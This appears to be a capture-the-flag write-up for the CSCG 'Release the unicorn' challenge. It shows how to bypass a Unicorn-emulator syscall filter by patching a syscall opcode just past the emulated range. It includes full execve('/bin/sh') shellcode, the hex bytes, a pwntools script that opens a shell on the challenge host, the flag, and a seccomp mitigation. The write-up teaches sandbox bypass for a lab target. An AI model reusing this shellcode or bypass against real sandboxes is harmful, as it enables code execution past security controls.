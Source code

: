 # Release the unicorn
> **Category:** Misc
>
> **Difficulty:** Easy
>
> **Hint:** Shellcode execution as a service. Can you outsmart the unicorn?

## Overview
The user can provide. The challenge will first execute the shellcode using the *Unicorn* Emulator. If the emulator did not find any *syscall* or *sysenter*, my shellcode gets executed for real.

## Vulnerability
The emulator only executes until the ende of the code length. The vulnerable code is here:

```rust
42  // Run emulation
43  emu.emu_start(BASE_ADDR, (BASE_ADDR as usize + code.len()) as u64, 0, 0)?;
```
The first argument is the start address and the second is the end address. During real execution, instructions after the end addess will still be executed.

## Exploit
My exploit writes the opcode for `syscall` at the end of the shellcode. To get the address of `rip` we use the fact that a `call` instruction pushes `rip` on the stack:
```mips
jmp begin
next:
    pop rcx
    push rcx
    ret
begin:
call next
``` 
Now I have `rip` in `rcx`. After counting the bytes of the rest of the shellcode, I write `0f05` at the end of my shellcode, the opcode for `syscall`.

```mips
add rcx, 44
mov word ptr [rcx], 0x050f
```

Afterwards I just add a standard `execve("/bin/sh", 0, 0)` shellcode that can be created with `pwn.asm(pwn.shellcraft("/bin/sh"))`. I remove the `syscall` and assemble the shellcode.

## Code
The full shellcode is:
```mips
/* save rip */
jmp begin
next:
    pop rcx
    push rcx
    ret
begin:
call next
/* save syscall at the end */
add rcx, 44
mov word ptr [rcx], 0x050f
/* /bin/sh shellcode */
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x68732f6e69622f
xor [rsp], rax
mov rdi, rsp
xor edx, edx 
xor esi, esi 
push 59
pop rax
/* Tell unicorn to stop */
.byte 00
```

Using the following python script I'm able to get the flag:

```python
from pwn import *
# Shellcode
sc = bytes.fromhex("eb035951c3e8f8ffffff4883c12c66c7010f0548b801010101010101015048b82e63686f2e726901483104244889e731d231f66a3b5800")

URL = "d9fd0a8778664417ed81d7a4-release-the-unicorn.challenge.master.cscg.live"
io = remote(URL, 31337, ssl=True)
io.recvuntil(b'Bytecode')
io.send(sc)
io.interactive()
```
Using `find / -name *flag* 2>/dev/null`, I locate the flag in the `/home/ctf/` folder. 

**Flag** CSCG{w4sn7_s0_s3cur3_4f3r_al1_huh}


# Mitigation
A safer practice to disable syscalls would be the application of `seccomp`. `seccomp` is a method to disallow system calls entirely, which would be a lot harder to circumvent. An example mitigation would be:

```rust
extern crate seccomp;
use seccomp::{Context, Action, Rule};

fn main() {
    // Add User interaction here

    println!("[+] Starting execution...");
    // Disallowing all syscalls
    let mut ctx = Context::default(Action::Allow).unwrap();
    for syscall in 0..=10000 {
        let rule = Rule::new(syscall, None, Action::Kill);
        ctx.add_rule(rule).unwrap();
    }
    ctx.load().unwrap();
    
    
    execute_bytecode(&user_input)
}

```